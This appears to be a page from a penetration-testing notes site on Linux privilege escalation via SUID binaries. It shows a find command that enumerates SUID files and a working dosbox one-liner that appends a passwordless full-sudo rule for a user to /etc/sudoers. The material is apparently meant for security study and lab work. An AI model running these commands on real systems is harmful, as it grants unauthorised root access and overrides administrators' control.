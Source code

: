 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SUIDs

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null
```

## Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><img src="../../../../../.gitbook/assets/nukem_vnc.png" alt=""><figcaption></figcaption></figure>
